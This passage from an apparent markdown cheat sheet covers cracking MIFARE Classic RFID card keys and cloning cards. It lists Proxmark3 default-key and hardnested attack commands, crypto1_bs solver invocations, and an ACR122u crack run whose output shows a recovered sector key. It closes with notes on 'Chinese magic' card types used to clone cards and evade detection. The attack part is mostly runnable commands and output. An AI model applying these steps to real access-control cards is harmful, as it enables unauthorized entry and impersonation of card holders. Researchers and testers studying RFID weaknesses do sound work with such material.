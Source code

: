 ```powershell
# find a default key
# res column is either equal to 1 or 0. 
# A 1 in the column means the key was valid for that sector.
hf mf chk *1 ? t


# <block number> <key A|B> <key (12 hex symbols)>
# <target block number> <target key A|B> [known target key (12 hex symbols)] [w] [s]
# w: Acquire nonces and write them to binary file nonces.bin
hf mf hardnested 0 A 8829da9daf76 4 A w

# then https://github.com/aczid/crypto1_bs
./solve_piwi 0xcafec0de.bin
./solve_piwi_bs 0xcafec0de.bin
```

**ACR122u method**

With the key n°A a0a1a2a3a4a5 for sector 0 and we want key n°A for sector 1. This method can be reused for every sectors.

```powershell
./libnfc_crypto1_crack a0a1a2a3a4a5 0 a 4 a
Found tag with uid 62ef9e5a, collecting nonces for key A of block 4 (sector 1) using known key A a0a1a2a3a4a5 for block 0 (sector 0)
Collected 2379 nonces... leftover complexity 23833993588 (~2^34.47) - initializing brute-force phase...
Starting 4 threads to test 23833993588 states using 256-way bitslicing
Cracking...  88.93%
Found key: c44e2b5e4ce3
Tested 21232975852 states
```

### Magic Chinese Card - Acronyms

**UID** - The original Chinese Magic Backdoor card. These cards respond to the backdoor commands and will show Chinese magic backdoor commands (GEN 1a) detected when you do an hf search. These cards can be detected by probing the card to see if it responds to the backdoor commands. Some RFID systems may try to detect these cards.

**CUID** - The 2nd generation Chinese Magic Backdoor card. These cards do not use the backdoor commands, but instead allow Block 0 to be written to like any other block on the card. This gives the card better compatibility to be written to from an Android phone. However, some RFID systems can detect this type of card by sending a write command to Block 0, making the card invalid after the first use is attempted.

**FUID** - This type of card is not as common, but allows Block 0 to be written to just once. This allows you to create a clone of a card and any checks done by the RFID system will pass because Block 0 is no longer writable.

**UFUID** - This type of card is apparently a "better" version of the FUID card. Instead of only allowing Block 0 to be written once, you can write to it many times and then lock the block later when you're happy with the result. After locking Block 0, it cannot be unlocked to my knowledge. I do not think there is currently a way to lock these cards using the Proxmark3.
